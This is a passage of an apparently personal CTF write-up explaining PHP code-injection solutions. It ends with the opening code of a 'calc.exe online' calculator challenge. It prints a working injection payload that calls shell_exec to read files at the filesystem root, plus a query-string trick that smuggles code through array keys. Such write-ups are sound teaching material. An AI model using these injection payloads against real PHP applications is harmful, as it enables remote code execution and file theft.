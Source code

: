 I found that the result was printed out! And the original fatal error became a warning: Warning: Illegal offset type in /Users/huli/Documents/security/ais/php-challenge/b.php on line 3

I still don't know why until now, but as long as the value part has a function call, it will be like this.

So as long as the things generated by print_r become a piece of legal code, any character can be inserted, and the second half can be commented out with `/*`, and the final solution looks like this:

``` php
abs(1)); echo shell_exec("cat /*"); /*
```

First use abs(1) to turn the fatal error into a warning, then execute the desired code, and finally use comments to skip the back, and successfully get the flag.

After the game, I looked at other people's solutions and found that the query string is so magical. I always thought that the query string could only pass arrays, like this: `?a[]=1&a[]=2`, but later I found out that there can be things inside `[]`, like this: `?a[test]=1`, in PHP, you can get:

``` php
Array
(
    [test] => 1
)
```

If it is like this, you can make the key `/*` and the value `*/]); echo 123;/*`, and combine them into:

``` php
<?php
 Array(
  [/*] => "*/]); echo 123;/*"
 );
?>
```

Then successfully compose a piece of legal PHP code.

The most valuable thing I learned from this question is that query strings can not only pass arrays but also objects (at least PHP and Express support it, I'm not sure about others).

## calc.exe online

This is a calculator program, and the code is as follows:

``` php
<?php
error_reporting(0);
isset($_GET['source']) && die(highlight_file(__FILE__));

function is_safe($query)
{
    $query = strtolower($query);
    preg_match_all("/([a-z_]+)/", $query, $words);
    $words = $words[0];
    $good = ['abs', 'acos', 'acosh', 'asin', 'asinh', 'atan2', 'atan', 'atanh', 'base_convert', 'bindec', 'ceil', 'cos', 'cosh', 'decbin', 'dechex', 'decoct', 'deg2rad', 'exp', 'floor', 'fmod', 'getrandmax', 'hexdec', 'hypot', 'is_finite', 'is_infinite', 'is_nan', 'lcg_value', 'log10', 'log', 'max', 'min', 'mt_getrandmax', 'mt_rand', 'octdec', 'pi', 'pow', 'rad2deg', 'rand', 'round', 'sin', 'sinh', 'sqrt', 'srand', 'tan', 'tanh', 'ncr', 'npr', 'number_format'];
    $accept_chars = '_abcdefghijklmnopqrstuvwxyz0123456789.!^&|+-*/%()[],';
    $accept_chars = str_split($accept_chars);
    $bad = '';
    for ($i = 0; $i < count($words); $i++) {
        if (strlen($words[$i]) && array_search($words[$i], $good) === false) {
            $bad .= $words[$i] . " ";
        }
    }
```